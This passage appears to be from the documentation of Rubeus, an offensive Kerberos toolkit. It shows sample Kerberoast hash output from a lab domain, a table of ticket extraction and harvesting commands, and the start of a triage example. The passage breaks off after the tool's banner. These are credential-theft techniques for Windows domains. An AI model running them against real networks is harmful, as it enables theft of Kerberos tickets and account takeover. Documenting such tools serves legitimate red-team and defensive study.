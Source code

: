 UserName : harmj0y
 UserRealm : TESTLAB.LOCAL
 ServiceName : asdf/asdfasdf
 ServiceRealm : TESTLAB.LOCAL
 StartTime : 2/20/2019 814 AM
 EndTime : 2/20/2019 1209 PM
 RenewTill : 2/27/2019 709 AM
 Flags : name_canonicalize, pre_authent, renewable, forwarded, forwardable
 KeyType : rc4_hmac
 Base64(key) : WqGWK4htp7rM1CURpxjMPA==
 Kerberoast Hash : $krb5tgs$23$*USER$DOMAIN$asdf/asdfasdf*$DEB467BF9C9023E...(snip)...


## Ticket Extraction and Harvesting

Breakdown of the ticket extraction/harvesting commands:

| Command | Description |
| ----------- | ----------- |
| [triage](#triage) | LUID, username, service target, ticket expiration |
| [klist](#klist) | Detailed logon session and ticket info |
| [dump](#dump) | Detailed logon session and ticket data |
| [tgtdeleg](#tgtdeleg) | Retrieve usable TGT for non-elevated user |
| [monitor](#monitor) | Monitor logon events and dump new tickets |
| [harvest](#harvest) | Same as monitor but with auto-renewal functionality|

**Note:** [triage](#triage)/[klist](#klist)/[dump](#dump) give increasing amounts of ticket detail.


### triage

The **triage** action will output a table of the current user's Kerberos tickets, if not elevated. If run from an elevated context, a table describing all Kerberos tickets on the system is displayed. Ticket can be filtered for a specific service with `/service:SNAME`.

If elevated, tickets can be filtered for a specific LogonID with `/luid:0xA..` or a specific user with `/user:USER`. This can be useful when triaging systems with a lot of Kerberos tickets.

Triage all enumerateable tickets (non-elevated):

 C:\Rubeus>Rubeus.exe triage

 ______ _
 (_____ \ | |
 _____) )_ _| |__ _____ _ _ ___
 | __ /| | | | _ \| ___ | | | |/___)
 | | \ \| |_| | |_) ) ____| |_| |___ |
 |_| |_|____/|____/|_____)____/(___/
